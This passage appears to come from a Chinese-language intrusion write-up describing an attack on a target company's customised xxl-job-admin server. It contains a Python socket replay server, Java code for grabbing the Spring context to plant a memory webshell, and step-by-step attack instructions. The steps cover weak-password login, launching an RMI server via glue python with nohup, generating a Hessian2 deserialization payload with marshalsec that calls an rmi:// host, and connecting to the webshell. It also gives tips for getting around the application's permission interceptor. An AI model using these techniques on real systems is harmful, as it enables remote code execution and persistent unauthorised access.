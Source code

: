 ```python
    while True:
        client,addr = server.accept()
        print("[*]received client %s"%(str(addr)))
        for seq in range(sum_sq):

            if seq in client_seq:
                print("[+]current seq:%d, recving" % seq)
                try:
                    data = client.recv(1024)
                except socket.timeout:
                    pass
            else:
                print("[+]current seq:%d, sending" % seq)
                try:
                    client.sendall(flow_data[seq])
                except socket.timeout:
                    pass
        print("[+]client close")
        client.close()

```

## 坑点

尽量不要从当前用户请求去拿对象，因为你拿的对象可能是用户自定义的一个实现类，在你调这个自定义类的过程中可能会导致预期之外的异常，而且你很难发现。

起初我们是通过下面这种方式最终拿到的`WebApplicationContext`, 在自己搭建的xxl-job-admin 测试环境上完全没有任何问题，但是到了实际业务环境，就是没有成功写入，这让我们折腾了很久。后来发现是因为prd-server2的xxl-job-admin是目标公司二次开发过的，我们通过`getRequest`拿到的对象不符合我们的预期。

```java
javax.servlet.ServletContext sss = ((ServletRequestAttributes)RequestContextHolder.getRequestAttributes()).getRequest().getSession().getServletContext();
WebApplicationContext context = WebApplicationContextUtils.getWebApplicationContext(servletContext);
```

## 攻击过程

①弱口令登录后台后，我们通过glue python写入`rmi server`脚本到tmp目录，随后使用glue python执行命令`nohup /tmp/rmi_server.py &`，启动我们的rmi服务，端口应该使用未被占用的高端口；

②通过`marshalsec`获取`Hessian2`反序列化触发EXP，并发送到到xxl-job-admin的`/API`接口

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.Hessian2 SpringAbstractBeanFactoryPointcutAdvisor rmi://executor_ip:port/Object > marshalsec.hessian2.bin
```

③连接webshell，且需带上认证的Cookie

## 结语

这里给出的内存马稍微还是有点缺陷，由于我们的内存马是以Spring Controller方式注册的，根目录在`xxl-job-admin`下，流量会先经过该应用的`PermissionInterceptor`，进行权限、cookie的校验。文中的xxl-job-admin是对源码做了一定修改，包名也有变化，这种情况下添加`com.xxl.job.admin.controller.annotation.PermessionLimit`注解就无效了，另外也没有存在通配符匹配下的不必认证的URI路径。后续的内存马应该尽量使用`Interceptor`一类的，避免该种问题。
